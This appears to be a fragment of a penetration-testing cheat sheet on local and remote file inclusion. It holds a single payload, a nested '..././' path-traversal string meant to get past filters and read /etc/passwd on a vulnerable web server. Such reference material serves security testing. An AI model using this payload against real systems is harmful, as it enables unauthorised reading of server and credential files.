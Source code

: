 # LFI / RFI
----------

Bypassing LFI filters:
```bash
..././..././..././..././..././etc/passwd
```

[]